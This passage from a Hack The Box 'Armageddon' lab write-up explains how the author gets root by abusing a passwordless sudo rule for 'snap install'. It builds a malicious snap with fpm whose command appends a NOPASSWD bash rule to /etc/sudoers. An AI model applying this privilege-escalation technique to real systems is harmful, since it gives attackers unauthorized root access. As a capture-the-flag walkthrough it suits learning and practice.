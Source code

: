 ## Root Flag  

Running *[lse.sh](https://github.com/diego-treitos/linux-smart-enumeration)* reveals that we're able to execute `/usr/bin/snap install *` via sudo without a password.

![ohsnap](/posts/images/hack-the-box-armageddon-writeup/ohsnap.png)  
**Figure 6:** We are able to execute `/usr/bin/snap install *` snap packages via sudo with no password.


To exploit this we'll use `fpm` to craft a malicious `snap` package. On our attacking machine we'll first install `fpm`.  

```
──(kali㉿kali)-[/var/www/html]
└─$ sudo gem install --no-document fpm                                                                                                                                                                                                 1 ⨯
Fetching arr-pm-0.0.10.gem
Fetching io-like-0.3.1.gem
Fetching backports-3.21.0.gem
Fetching ruby-xz-0.2.3.gem
Fetching cabin-0.9.0.gem
Fetching childprocess-0.9.0.gem
Fetching clamp-1.0.1.gem
Fetching stud-0.0.23.gem
Fetching git-1.8.1.gem
Fetching fpm-1.12.0.gem
Fetching insist-1.0.0.gem
Fetching mustache-0.99.8.gem
Fetching dotenv-2.7.6.gem
Fetching pleaserun-0.0.32.gem
Successfully installed cabin-0.9.0
Successfully installed backports-3.21.0
Successfully installed arr-pm-0.0.10
Successfully installed clamp-1.0.1
Successfully installed childprocess-0.9.0
Successfully installed io-like-0.3.1
Successfully installed ruby-xz-0.2.3
Successfully installed stud-0.0.23
Successfully installed mustache-0.99.8
Successfully installed insist-1.0.0
Successfully installed dotenv-2.7.6
Successfully installed pleaserun-0.0.32
Successfully installed git-1.8.1
Successfully installed fpm-1.12.0
14 gems installed
```

As per the *[GTFObin's instructions](https://gtfobins.github.io/gtfobins/snap/)* we craft the packet. We'll modify the command in those instructions to be `COMMAND="echo 'brucetherealadmin ALL=(ALL) NOPASSWD:/bin/bash' >> /etc/sudoers"`, so that *brucetherealadmin* can sudo with no password at all. We then transfer this package to our Apache server's directory as `oh.snap`.
